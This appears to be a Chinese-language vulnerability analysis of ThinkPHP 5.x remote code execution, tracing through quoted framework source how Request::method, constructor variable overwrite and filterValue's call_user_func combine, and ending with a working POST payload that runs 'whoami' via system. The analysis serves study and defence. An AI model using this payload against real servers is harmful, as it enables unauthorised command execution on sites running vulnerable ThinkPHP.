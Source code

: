 # TP5代码执行

version:5.0.0<=ThinkPHP5<=5.0.23, 5.1.0<=ThinkPHP<=5.1.32

## Request类任意方法调用

在Request类中的method方法中,$this->method的值为POST请求中_method(默认值)的值,而后再把整个POST数组传递给该方法作为参数,导致可以请求Request类中的任意方法,且参数可控

```php
    public function method($method = false)
    {
        if (true === $method) {
            // 获取原始请求类型
            return $this->server('REQUEST_METHOD') ?: 'GET';
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $this->method = strtoupper($_POST[Config::get('var_method')]);
                $this->{$this->method}($_POST);
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = $this->server('REQUEST_METHOD') ?: 'GET';
            }
        }
        return $this->method;
    }
```

而在Request类的构造函数中还可以进行变量覆盖,在构造函数中循环检查变量在该类中是否存在,若存在则进行赋值

```php
    protected function __construct($options = [])
    {
        foreach ($options as $name => $item) {
            if (property_exists($this, $name)) {
                $this->$name = $item;
            }
        }
        if (is_null($this->filter)) {
            $this->filter = Config::get('default_filter');
        }
               // 保存 php://input
        $this->input = file_get_contents('php://input');
    }
```

在Request类中的filterValue()方法中对变量进行了循环过滤,其中$filter为过滤的函数,可以通过刚才的构造函数对该值进行覆盖那么call_user_func()执行的函数则可控

```php
    private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);
        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (false !== strpos($filter, '/')) {
                    // 正则过滤
                    if (!preg_match($filter, $value)) {
                        // 匹配不成功返回默认值
                        $value = $default;
                        break;
                    }
```

搜索调用filterValue的地方,发现在input方法中调用了filterValue()

```php
   public function input($data = [], $name = '', $default = null, $filter = '')
    {
        if (false === $name) {
            // 获取原始数据
            return $data;
			...
            ...
        // 解析过滤器
        $filter = $this->getFilter($filter, $default);//$filter可被变量覆盖

        if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);//调用filterValue
            reset($data);
        } else {
            $this->filterValue($data, $name, $filter);
        }

        if (isset($type) && $data !== $default) {
            // 强制类型转换
            $this->typeCast($data, $type);
        }
        return $data;
    }
```

而在param()中则调用了该input(),在param()中再次调用了$this->method,而参数为true

```php
    public function param($name = '', $default = null, $filter = '')
    {
        if (empty($this->mergeParam)) {
            $method = $this->method(true);
            // 自动获取请求变量
            switch ($method) {
                case 'POST':
                    $vars = $this->post(false);
                    break;
                case 'PUT':
                case 'DELETE':
                case 'PATCH':
                    $vars = $this->put(false);
                    break;
                default:
                    $vars = [];
            }
            // 当前请求参数和URL地址中的参数合并
            $this->param      = array_merge($this->param, $this->get(false), $vars, $this->route(false));
            $this->mergeParam = true;
        }
        if (true === $name) {
            // 获取包含文件上传信息的数组
            $file = $this->file();
            $data = is_array($file) ? array_merge($this->param, $file) : $this->param;
            return $this->input($data, '', $default, $filter);
        }
        return $this->input($this->param, $name, $default, $filter);
    }
```

参数为true的情况下method方法会调用server('REQUEST_METHOD')

```php
        if (true === $method) {
            // 获取原始请求类型
            return $this->server('REQUEST_METHOD') ?: 'GET';
```

在server的返回中也调用了input,而$this->server也可以进行变量覆盖

````php
    public function server($name = '', $default = null, $filter = '')
    {
        if (empty($this->server)) {
            $this->server = $_SERVER;
        }
        if (is_array($name)) {
            return $this->server = array_merge($this->server, $name);
        }
        return $this->input($this->server, false === $name ? false : strtoupper($name), $default, $filter);
    }
````

POST`_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami&method=get`来覆盖$filter为system,$value为server[REQUEST_METHOD]=whoami,利用call_user_func()执行命令

![1](1.jpg)

[详细分析](https://0kee.360.cn/blog/thinkphp-5-x-rce-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B8%8E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/)



